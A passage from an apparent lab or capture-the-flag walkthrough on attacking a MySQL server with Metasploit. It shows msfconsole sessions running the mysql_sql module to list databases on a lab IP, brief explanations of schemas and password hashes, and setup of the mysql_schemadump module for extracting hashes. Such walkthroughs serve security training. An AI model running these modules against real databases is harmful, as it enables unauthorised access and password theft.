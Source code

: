 ```commandline
msf6 auxiliary(admin/mysql/mysql_sql) > set SQL show databases
SQL => show databases
msf6 auxiliary(admin/mysql/mysql_sql) > exploit
[*] Running module against 10.10.188.228

[*] 10.10.188.228:3306 - Sending statement: 'show databases'...
[*] 10.10.188.228:3306 -  | information_schema |
[*] 10.10.188.228:3306 -  | mysql |
[*] 10.10.188.228:3306 -  | performance_schema |
[*] 10.10.188.228:3306 -  | sys |
[*] Auxiliary module execution completed
```

What do we know?

Let's take a sanity check before moving on to try and exploit the database fully, and gain more sensitive information than just database names. We know:

1. MySQL server credentials
2. The version of MySQL running
3. The number of Databases, and their names.

Key Terminology

In order to understand the exploits we're going to use next- we need to understand a few key terms.

Schema:

In MySQL, physically, a schema is synonymous with a database. You can substitute the keyword "SCHEMA" instead of DATABASE in MySQL SQL syntax, for example using CREATE SCHEMA instead of CREATE DATABASE. It's important to understand this relationship because some other database products draw a distinction. For example, in the Oracle Database product, a schema represents only a part of a database: the tables and other objects owned by a single user.

Hashes:

Hashes are, very simply, the product of a cryptographic algorithm to turn a variable length input into a fixed length output.

In MySQL hashes can be used in different ways, for instance to index data into a hash table. Each hash has a unique ID that serves as a pointer to the original data. This creates an index that is significantly smaller than the original data, allowing the values to be searched and accessed more efficiently

However, the data we're going to be extracting are password hashes which are simply a way of storing passwords not in plaintext format.

Lets get cracking.

First let's search for the `mysql_schemadump` module in the `msfconsole` and `use` it, then `set` all required variables:

```commandline
msf6 auxiliary(admin/mysql/mysql_sql) > search mysql_schemadump

Matching Modules
================

   #  Name                                      Disclosure Date  Rank    Check  Description
   -  ----                                      ---------------  ----    -----  -----------
   0  auxiliary/scanner/mysql/mysql_schemadump                   normal  No     MYSQL Schema Dump


Interact with a module by name or index. For example info 0, use 0 or use auxiliary/scanner/mysql/mysql_schemadump

msf6 auxiliary(admin/mysql/mysql_sql) > use 0
msf6 auxiliary(scanner/mysql/mysql_schemadump) > options

```